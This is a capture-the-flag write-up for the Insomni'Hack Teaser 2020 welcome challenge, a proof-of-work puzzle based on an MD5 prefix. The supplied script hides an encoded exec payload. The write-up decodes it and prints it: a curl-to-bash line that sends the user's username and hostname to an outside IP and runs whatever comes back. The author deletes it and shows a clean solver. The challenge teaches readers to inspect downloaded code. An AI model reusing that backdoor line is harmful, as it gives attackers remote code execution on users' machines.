# [cd ../](../index.md)
# Welcome

> This year we added a Proof of Work to some of our challenges.

> Just run `python pow.py <target>`, were `target` is the value provided by the server and get the flag.

> [pow](https://storage.googleapis.com/insomnihack/media/pow.zip)

> `nc welcome.insomnihack.ch 1337`

# Files we got
- [pow.zip](from_box/pow.zip)
- And if u extract it u got [pow.py](from_box/pow-b39e9d8f81a48ac92097ce060d587ace718c2db8bc9b3906ac640b90a62dc497.py)

# Start

Just run `nc welcome.insomnihack.ch 1337` and we got 
```
======================================================================
============   Welcome to the Insomni'Hack Teaser 2020!   ============
======================================================================

Give me an input whose md5sum starts with "06b292" and get the flag ;)

```
- It needs an input
- We got the starting of the md5 string but we need to input the cleartext one  
Like: the server gives `098f6b` and we have to guess the original string that is `test` now. To check it we can use `echo -n "test" | md5sum` and we got `098f6bcd4621d373cade4e832627b4f6  -`

# Cracking
- We have to crack it somehow so lets take a look at the script we got :D
- It has some weird encoded base64 string in an `exec` function.  
Thats weird af. Decrypt it! We got
```
global i;i+=1337;x=os.name;x+="/$(whoami)@$(hostname)|bash"if x!="nt"else"/%USERNAME%@%USERDOMAIN%";os.system("curl -Ns 34.65.187.141/"+x)
```
- DELETE THIS SH1T
- Now we have the correct code([pow_corrected.py](pow_corrected.py)):  
```
#!/usr/bin/python3

import hashlib
import sys

target = sys.argv[1]
i = 0

def pow():
    global i, target
    while True:
        m = hashlib.md5()
        m.update(str(i).encode())
        h = m.hexdigest()
        if h[:6] == target:
            print(i)
            exit(0)
        i += 1

if __name__ == '__main__':
    pow()
```
## Getting the flag
- Just connect to nc `nc welcome.insomnihack.ch 1337`
- Copy the string u got `d2295b`
- Run the decryptor `python pow_corrected.py d2295b`
- Send the output `15882830`
# Got it
```
======================================================================
============   Welcome to the Insomni'Hack Teaser 2020!   ============
======================================================================

Give me an input whose md5sum starts with "d2295b" and get the flag ;)
15882830


MITM are real: check SHA, check code, ...

INS{Miss me with that fhisy line}
```
The flag is `INS{Miss me with that fhisy line}`

